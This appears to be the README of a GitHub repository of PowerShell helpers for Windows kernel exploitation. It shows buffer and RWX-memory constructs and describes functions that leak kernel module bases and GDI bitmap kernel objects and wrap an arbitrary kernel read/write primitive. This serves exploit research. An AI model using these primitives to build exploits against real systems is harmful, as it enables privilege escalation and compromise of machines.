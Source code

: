 # PSKernel-Primitives

Over time I'll add PowerShell helper functions to assist in kernel exploitation.

## Common PowerShell Exploit Constructs

### Create Buffer

```powershell
# Byte buffer int/hex
$Buff = [Byte[]](0x41)*255 + [Byte[]](0x42)*0xff

# Buffer includes pointer
# Takes care of endianness, may need ".ToInt32()" or ".ToInt64()"
$Buff = [Byte[]](0x41)*255 + [System.BitConverter]::GetBytes($Pointer)
```

### Pointer To Alloc bytes

```powershell
# Pointer can be converted as above
[IntPtr]$Pointer = [Kernel32]::VirtualAlloc([System.IntPtr]::Zero, $Bytes.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($Bytes, 0, $Pointer, $Bytes.Length)
```

### Read DWORD/QWORD

```powershell
# DWORD
$Val = [System.Runtime.InteropServices.Marshal]::ReadInt32($Address)

# QWORD
$Val = [System.Runtime.InteropServices.Marshal]::ReadInt64($Address)
```

### Pointer <-> structure

```powershell
# Pointer to PowerShell struct
$SomeStruct = New-Object SomeStruct
$SomeStruct_Size = [System.Runtime.InteropServices.Marshal]::SizeOf($SomeStruct) # if needed
$SomeStruct = $SomeStruct.GetType()
$SystemPointer = New-Object System.Intptr -ArgumentList $Address
$Cast = [system.runtime.interopservices.marshal]::PtrToStructure($SystemPointer,[type]$SomeStruct)

# PowerShell struct to Pointer
$SomeStructSize = [System.Runtime.InteropServices.Marshal]::SizeOf($SomeStruct)
[IntPtr]$Pointer = [System.Runtime.InteropServices.Marshal]::AllocHGlobal($SomeStructSize)
[system.runtime.interopservices.marshal]::StructureToPtr($SomeStruct, $Pointer, $true)
```

### Add elements to custom PowerShell object

```powershell
# You can loop this is a for or while to add entries to $Result
$Result = @()
$HashTable = @{
	Element1 = "Val"
	Element2 = "Val"
	Element3 = "Val"
}
$Object = New-Object PSObject -Property $HashTable
$Result += $Result
```

### Handle to current process

```powershell
$ProcHandle = (Get-Process -Id ([System.Diagnostics.Process]::GetCurrentProcess().Id)).Handle
```

### Loop based on time

```powershell
$Timer = [diagnostics.stopwatch]::StartNew()
while ($Timer.ElapsedMilliseconds -lt 10000) {
	#...Something...
}
$Timer.Stop()
```

## Kernel Helper Functions

### Get-LoadedModules

Gets the base of all loaded modules. For Low integrity this only works pre Win 8.1.

```
C:\PS> $Modules = Get-LoadedModules
C:\PS> $Modules[4]

ImageSize    ImageName                                     ImageBase
---------    ---------                                     ---------
0x5C000      \SystemRoot\System32\drivers\CLFS.SYS    -8246323585024

C:\PS> "{0:X}" -f $Modules[0].ImageBase
FFFFF8030460B000
```

### Stage-BitmapReadWrite

Creates manager and worker bitmaps & leaks their kernel objects. This only works pre Win 10 v1607!

```
C:\PS> Stage-BitmapReadWrite

ManagerpvScan0       : -7692227456944
WorkerHandleTable    : 767454567328
ManagerKernelObj     : -7692227457024
PEB                  : 8757247991808
WorkerpvScan0        : -7692227415984
ManagerHandle        : -737866269
WorkerHandle         : 2080706172
GdiSharedHandleTable : 767454478336
ManagerHandleTable   : 767454563656
WorkerKernelObj      : -7692227416064

C:\PS> $BitMapObject = Stage-BitmapReadWrite
C:\PS> "{0:X}" -f $BitMapObject.ManagerKernelObj
FFFFF9010320F000
```

### Bitmap-Helpers

Just two small functions which act as a wrapper for GDI arbitrary r/w primitive.

```
# Read
PS C:\> Bitmap-Read -Address 0x41414141

# Write
PS C:\> Bitmap-Write -Address 0xFFFFF9010320F000 -Value 0xb33fb33fb33fb33f
```
